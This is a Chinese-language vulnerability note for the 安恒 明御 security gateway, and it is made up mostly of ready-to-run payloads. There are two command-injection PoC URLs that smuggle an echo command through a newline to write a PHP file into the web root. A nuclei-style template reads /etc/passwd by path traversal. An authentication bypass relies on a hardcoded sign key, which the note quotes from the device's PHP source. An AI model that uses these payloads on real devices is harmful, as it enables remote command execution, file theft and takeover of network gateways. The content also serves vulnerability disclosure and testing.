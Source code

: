 # 

# 安恒 明御安全网关 命令执行 任意文件读取漏洞

## 漏洞描述

安恒信息明御安全网关存在命令执行漏洞，导致攻击者可以直接执行系统命令，从而控制目标系统。

## 漏洞分析

参考阅读：

- https://r0fus0d.blog.ffffffff0x.com/post/oem-case/

## 漏洞复现

### 命令执行 1

漏洞 URL：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=
```

poc：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111112.php&bkg_flag=0
```

### 命令执行 2

漏洞 URL：

```
/webui/?g=aaa_portal_auth_config_reset&type=
```

poc：

```
/webui/?g=aaa_portal_auth_config_reset&type=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111111.php%0a
```

### 任意文件读取

poc：

```
requests:
  - method: GET
    path:
      - "{{BaseURL}}/webui/?g=sys_dia_data_down&file_name=../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_dia_data_check&file_name=../../../../../../../../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_capture_file_download&name=../../../../../../../../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_corefile_sysinfo_download&name=../../../../../../../../etc/passwd"
```

### 验证码绕过

poc：

```
/remote_auth.php?user=admin&pwd=admin&sign=ba84d9dd91eb304aca57f0a8f052623e
```

其中 sign 硬编码在 `/usr/local/webui/remote_auth.php` 中：

```php
if($_GET['user']!=null) $usr = formatget($_GET['user']);
if($_GET['pwd']!=null) $pwd = formatget($_GET['pwd']);
if($_GET['sign']!=null) $sign = formatget($_GET['sign']);
$key= 'saplingos!@#$%^&*';//这个key你们协商后保存一致即可
//ba84d9dd91eb304aca57f0a8f052623e
if(empty($usr)){
	die('user_null');
}
else if(empty($pwd)){
	die('pwd_null');
}
else if (!$sign){
	die('sign_null');
}
else if ($sign != md5($key)){
	die('sign_error');
}
else{
	if (isset($usr, $pwd)) {
		LoginHandler::login($usr, $pwd, $num,'',$remote_auth = true);
	}
	$fail_msg = '';
	if (LoginHandler::isLoginFail()) {
		$fail_msg = $_SESSION[ERROR_STR];
		if (strlen($fail_msg) <= 0) {
			$fail_msg = LocalUtil::getCommonResource('login_failed');
		}
		die($fail_msg);
	}
}
```

可以通过任意文件读取漏洞读取 key，然后进行爆破。
